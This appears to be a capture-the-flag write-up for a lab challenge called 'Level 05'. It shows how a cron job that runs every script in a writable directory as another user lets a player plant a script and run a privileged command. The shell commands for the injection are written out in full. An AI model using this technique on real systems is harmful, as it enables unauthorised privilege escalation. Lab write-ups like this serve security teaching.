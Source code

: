# Level 05

On connection: You have new mail.
Mail are hosted on `/var/spool/mail`.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
It's a crontab configuration who execute every two minutes the shell script in `/usr/sbin/openarenaserver` as flag05.

```sh
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Let's inject our own script.
```sh
$ echo "exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/inject.sh
$ cat /tmp/soluc
```